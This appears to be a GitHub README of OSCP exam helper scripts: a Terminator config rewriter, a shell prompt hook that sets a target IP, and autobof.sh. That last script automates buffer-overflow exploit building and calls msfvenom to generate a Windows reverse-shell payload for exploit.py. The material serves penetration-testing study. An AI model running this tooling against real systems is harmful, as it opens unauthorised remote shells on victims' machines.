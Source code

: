 # OSCP
## OSCP Ergonomic Scripts and Configs

__config.bak__ - A terminator config file that will be used to launch terminator and execute commands like ($ autorecon $ip) 
             across different IP folders using broadcast all mode.

__autoterm.sh__ - A script that will replace the placeholder ProjectX and #1,2,3,4,5 with the ProjectName and the target IP's.

```bash
# Example - terminators config file is reset using config.bak and reconfigured with the new projects IPs
# $./autoterm.sh
# Insert your Kali IP (Default: 127.0.0.1): 192.168.0.104
# Insert your Kali Port (Default: 22): 2222
# Setting Kali IP to 192.168.0.104
# Setting Kali SSH Port to 2222
# Project Name: R
# IPs: 10.10.10.23 10.10.10.5
# Terminator config successfully changed.

#!/bin/bash
# Restore original config
cp ~/.config/terminator/config.bak ~/.config/terminator/config
count=0 #Counter for Number of IPs

# This host should be accessible using preset ssh-keys. SSH Password setup will break terminator.
read -a kalibox -p 'Insert your Kali IP (Default: 127.0.0.1): '
# The ssh service on this host should be running on port 22 by default
read -a kaliport -p 'Insert your Kali Port (Default: 22): ' 

if [ -z "$kalibox" ]
then 
  kalibox="127.0.0.1";
fi 

echo "Setting Kali IP to ${kalibox}"

if [ -z "$kaliport" ]
then 
  kaliport="22";
fi

echo "Setting Kali SSH Port to ${kaliport}"

read -a project -p 'Project Name: '
read -a ips -p 'IPs: '

if [ -z "$project" ]
then 
  echo "Project Name cannot be empty"
  exit 0
fi

if [ -z "$ips" ]
then 
  echo "Please specify some IPs"
  exit 0
fi 

for elem in ${ips[@]}
do
  if [[ ! "$elem" =~ ^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$ ]]; then 
    echo "Please specify real IPs"
    exit 0
  fi 
  count=$((count+1))
  sed -i "s/127.0.0.1/$kalibox/g" ~/.config/terminator/config
  sed -i "s/2222/$kaliport/g" ~/.config/terminator/config
  sed -i "s/projectX/$project/g" ~/.config/terminator/config 
  sed -i "s/#$count/$elem/g" ~/.config/terminator/config 
done

echo 'Terminator config successfully changed.'
```


__autobof.sh__ - A script of generating 'full hex shellcode characterset' -> 'hex shellcode with deducted badchars' -> 'msfpayload'. Autobof will automatically generate payloads and modify exploit.py payload variable. This script primary use is to aid in exploit creation while using debuggers like immunity or edb.
__badcharset.py__ - A script for generating the full hex shellcode 
__exploit.py__ - A python script for testing for simple buffer overflow

```bash
# Author: Andrew Abwoga
# This script will automatically generate a characterset without the bad characters the user has specified
# Specify outlying bad characters (from mona): 01 02 03
# Specify lhost (for venom): 127.0.0.1
# [+] Bad character shellcode: \x01\x02\x03
# [+] Bad character deduction: 
# payload = "\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f\\x10\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f\\x20\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f\\x40\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f\\x70\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f\\x80\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f\\x90\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f\\xa0\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf\\xb0\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf\\xc0\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf\\xd0\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf\\xe0\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff"
# [+] Modifying exploit.py payload with characterset without bad characters...
#!/bin/bash

echo 'Rule: Provide empty inputs to generate a full characterset payload.'
echo 'Rule: Provide pattern length only as input to generate the pattern.'
echo 'Rule: Put exploit.py and badcharset.py on the same path as this file.'
read -a plength -p 'Specify (pattern length + 400) (from fuzzer.py): '
read -a badchars -p 'Specify outlying bad characters (from mona): ' 
read -a lhost -p 'Specify lhost (for venom): '

sed -i "/payload =/d" exploit.py #deletes payload variables from exploit.py for reuse
sed -i "/payload +=/d" exploit.py #deletes payload variables from exploit.py for reuse
sed -i "/padding = \"\"/a payload = \"\"" exploit.py #appends payload variable

if [ -n "$plength" ]
then
msfpattern=$(msf-pattern_create -l $plength)
echo '[+] Modifying exploit.py payload with msf-pattern...'
cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
sed -i "/payload = \"\"/c payload = \"$msfpattern\"" exploit.py
echo '[+] Pattern payload: '
echo $msfpattern
exit 0
fi

if [ -z "$badchars" ]
then
echo "[+] Full bad characterset payload: "
echo "payload = \"$(python2 badcharset.py)\""

echo "[+] Modifying exploit.py payload with full characterset..."
cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
replacement=$(echo -E "payload = \"$(python2 badcharset.py)\"" | gawk '/\\/{gsub(/\\/, "\\\\")};{print}' ) 
sed -i "/payload = \"\"/c $replacement" exploit.py
exit 0
fi

if [ -n "$badchars" ] && [ -z "$lhost" ]
then
echo -n "[+] Bad character shellcode: "
bc="$(echo ${badchars[@]} | sed 's/ /\\x/g' | sed 's/^/\\x/g' | tr '' '\n')"
echo "$bc"

echo "[+] Bad character deduction: "
pattern=$(for i in ${badchars[@]}; do echo -n "s+x$i\\\++g; " ; done)
badcharsreplacement=$(echo -E "payload = \"$(python2 badcharset.py)\"" | sed "$pattern" | gawk '/\\/{gsub(/\\/, "\\\\")};{print}')
echo $badcharsreplacement

echo "[+] Modifying exploit.py payload with characterset without bad characters..."
cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
sed -i "/payload = \"\"/c $badcharsreplacement" exploit.py
exit 0
fi

if [ -n "$lhost" ]
then
echo -n '[+] Generating venom...'

cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
bc="$(echo ${badchars[@]} | sed 's/ /\\x/g' | sed 's/^/\\x/g' | tr '' '\n')"
msfoutput=$(msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=4444 EXITFUNC=thread  -v payload -b "$bc" -f python)
venom=$(echo -n -E $msfoutput | gawk '/\\/{gsub(/\\/, "\\\\")};{print}' | sed 's/payload/\\\npayload/g')

echo '[+] Modifying exploit.py with payload...'
sed -i -e "/payload = \"\"/c $venom" exploit.py

echo -n '[+] Generated venom output: '
echo "$(echo $msfoutput | sed 's/payload/\npayload/g')"
exit 0
fi
```
__dollar_ip_prompt_command.sh__ - Has a PROMPT_COMMAND env variable that will track a directory named using an IP on the current path (pwd)
                             and it will set the $ip env variable to that IP named directory. The code should be place on .bashrc or .zshrc. For zsh you have to add the line ```bash precmd() { eval "$PROMPT_COMMAND" }``` at the end of the .zshrc file

```bash
# Example - $ip env variable is automatically set using the code below
# $ mkdir 10.10.10.5
# $ cd 10.10.10.5
# $ autorecon $ip 

function prompt_command {
	unset ip #unset IP to make sure its not assigned
	nfields=$(echo $PWD | awk -F '/' '{print NF}') #get the number of directories along the path
	for i in $(seq $nfields) #iterate through the number of directories in the path
	do
		base=$(echo $PWD | awk -v i=$i -F '/' '{print $i}') #get a specific directory
		if [[ $base =~ ^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$ ]]; then #if that directory is an ip
			export ip=$base #export that ip 
		fi
	done
}
export PROMPT_COMMAND=prompt_command
```

[![Watch the video](https://i1.ytimg.com/vi/vRj62ltRSiY/sddefault.jpg)](https://www.youtube.com/watch?v=vRj62ltRSiY "Click to watch demo on Youtube")

